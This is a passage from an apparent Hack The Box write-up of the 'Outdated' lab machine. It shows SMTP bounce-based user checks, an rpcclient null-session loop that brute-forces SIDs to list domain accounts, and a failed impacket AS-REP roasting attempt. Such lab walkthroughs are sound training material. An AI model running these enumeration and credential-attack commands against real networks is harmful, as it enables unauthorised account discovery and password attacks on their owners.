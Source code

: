 
Verify that the mail has been sent by looking at `/var/log/mail.log` and verify that it has **status = sent**. 
```bash
➜  outdated cat /var/log/mail.log
[... snip ...]
Aug 15 10:51:28 void postfix/smtp[7917]: 0C51812101C: to=<itsupport@outdated.htb>, relay=outdated.htb[10.10.11.175]:25, delay=54, delays=43/0.01/0.08/11, dsn=2.0.0, status=sent (250 Queued (10.432 seconds))
```

Although the mail is sent and nothing seems to be out of the ordinary, we don't get anything back. Testing other transmitters we see that the mail bounces due to `500: Unknown user`, if we only have a list of potential users we could verify them this way. 

```bash
Aug 15 10:58:37 void postfix/smtp[8307]: 7EEB6121020: to=<0xpthree@outdated.htb>, relay=outdated.htb[10.10.11.175]:25, delay=0.16, delays=0/0/0.09/0.07, dsn=5.0.0, status=bounced (host outdated.htb[10.10.11.175] said: 550 Unknown user (in reply to RCPT TO command))

Aug 15 11:00:20 void postfix/smtp[8325]: 90736121020: to=<Administrator@outdated.htb>, relay=outdated.htb[10.10.11.175]:25, delay=0.15, delays=0/0/0.08/0.06, dsn=5.0.0, status=bounced (host outdated.htb[10.10.11.175] said: 550 Unknown user (in reply to RCPT TO command))
```

### Step 2
At this point we have pretty much nothing, and since we don't get any callbacks from SMTP it's starting to feel like a rabbithole..  
We can continue enumerating further to see if I missed something, we can use ``rpcclient`` to enumerate all users in the machine. 
```bash
## Find SID
➜  outdated rpcclient -U "" 10.10.11.175    
Password for [WORKGROUP\]:
rpcclient $> lookupnames Administrator
Administrator S-1-5-21-4089647348-67660539-4016542185-500 (User: 1)

## Bruteforce to find all users
➜  outdated for i in {1000..1200}; do rpcclient --command="lookupsids S-1-5-21-4089647348-67660539-4016542185-$i" 10.10.11.175 -U "" --password=; done
[... snip ...]
S-1-5-21-4089647348-67660539-4016542185-1103 OUTDATED\DnsAdmins (4)
S-1-5-21-4089647348-67660539-4016542185-1104 OUTDATED\DnsUpdateProxy (2)
S-1-5-21-4089647348-67660539-4016542185-1105 OUTDATED\CLIENT$ (1)
S-1-5-21-4089647348-67660539-4016542185-1106 OUTDATED\btables (1)
S-1-5-21-4089647348-67660539-4016542185-1107 OUTDATED\ITStaff (2)
S-1-5-21-4089647348-67660539-4016542185-1108 OUTDATED\sflowers (1)
S-1-5-21-4089647348-67660539-4016542185-1109 *unknown*\*unknown* (8)
```
We find two users - `btables` & `sflowers`

**Asreproast** fails:
```bash
➜  outdated impacket-GetNPUsers outdated.htb/ -usersfile /htb/outdated/users.txt -format hashcat -dc-ip 10.10.11.175
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User btables doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sflowers doesn't have UF_DONT_REQUIRE_PREAUTH set
```
